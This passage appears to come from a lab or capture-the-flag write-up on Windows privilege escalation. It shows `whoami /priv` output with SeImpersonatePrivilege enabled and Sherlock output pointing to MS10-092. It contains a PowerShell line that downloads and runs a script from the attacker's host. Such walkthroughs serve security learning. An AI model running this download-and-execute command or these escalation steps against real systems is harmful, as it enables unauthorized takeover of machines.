 

With no hotfixes, there's a ton of exploits to look at.

#### Whoami /priv

Whenever I get access via a web service on a Windows host, I always
check `whoami /priv`. If `SeImpersonatePrivilege` is present, I can
likely get SYSTEM with [Lonely
Potato](https://github.com/decoder-it/lonelypotato). That appears to be
the case here:



    PS C:\users\merlin\desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State
    ============================= ========================================= =======
    SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
    SeAuditPrivilege              Generate security audits                  Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled



#### Sherlock

Another tool to try is
[Sherlock](https://github.com/rasta-mouse/Sherlock). Unfortunately, it's
no longer being maintained, in favor of Watson (see [more on that
later](#watson)). Still, it's a quick PowerShell Script that will
identify some kernel exploits.

Upload it, and then run `Find-AllVulns`. It looks like MS10-092 is a
good candidate:



    PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
    PS C:\users\merlin\appdata\local\temp> Find-AllVulns

    Title      : User Mode to Ring (KiTrap0D)
    MSBulletin : MS10-015
    CVEID      : 2010-0232
    Link       : https://www.exploit-db.com/exploits/11199/
    VulnStatus : Not supported on 64-bit systems

    Title      : Task Scheduler .XML
    MSBulletin : MS10-092
    CVEID      : 2010-3338, 2010-3888
    Link       : https://www.exploit-db.com/exploits/19930/
    VulnStatus : Appears Vulnerable
